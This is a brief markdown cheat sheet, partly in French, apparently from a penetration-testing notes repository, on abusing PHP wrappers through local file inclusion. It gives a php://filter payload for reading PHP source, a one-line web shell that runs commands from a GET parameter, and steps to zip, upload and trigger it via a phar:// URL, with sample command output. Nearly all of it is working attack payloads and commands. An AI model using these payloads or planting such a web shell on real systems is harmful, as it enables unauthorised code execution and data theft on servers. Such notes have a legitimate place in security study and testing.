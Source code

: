 # PHP WRAPPER

## FILTER

Lire un fihier php via LFI: 

	php://filter/convert.base64-encode/resource=file
	
## PHAR-ZIP

- Setup :

vim shell.php
	
	<?php system($_GET['cmd']); ?>

zip shell.zip shell.php

We upload the zip file

--> url?file=shell.zip

- Exploit :

--> url?file=phar://shell.zip/shell.php&cmd=ls

file1
file2
file3
